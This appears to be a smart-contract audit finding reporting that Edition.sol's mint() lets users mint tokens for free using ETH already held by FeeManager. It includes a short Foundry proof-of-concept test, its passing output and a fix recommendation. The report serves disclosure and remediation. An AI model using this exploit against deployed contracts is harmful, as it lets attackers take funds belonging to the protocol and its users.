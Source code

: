 Virtual Purple Goat

high

# Users can mint tokens for free

## Summary

`Edition.sol` does not check whether the user has sent the amount to the current contract

## Vulnerability Detail

Under the normal process, the user sends eth to Edition, and then sends eth to FeeManager for distribution. However, if the FeeManager contract itself has some unexpected amounts, the user can call the Edition::mint() function for free to mint tokens. .



poc:

add it and run it in Edition.t.sol

```solidity
    function test_Freemint() public {
        vm.deal(address(feeManager), 1 ether);
        console.log("Before: %d", address(feeManager).balance);
        edition.mint(address(1), 1, 1, address(0), new bytes(0));
        console.log("After: %d", address(feeManager).balance);
        assertEq(edition.totalSupply(1), 1);
    }
```

result:

```tex
Ran 1 test for test/editions/Edition.t.sol:EditionTest
[PASS] test_Freemint() (gas: 165765)
Logs:
  Before: 1000000000000000000
  After: 989400000000000000

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 1.19ms
```



## Impact

Users can use the amount in the FeeManager contract to mint tokens for free.

## Code Snippet

https://github.com/sherlock-audit/2024-04-titles/blob/c9d16782a7d3c15c7a759f22c9e0552d5e777ed7/wallflower-contract-v2/src/fees/FeeManager.sol#L366-L410

## Tool used

Manual Review

## Recommendation

Should msg.value be checked in collectMintFee if it is enough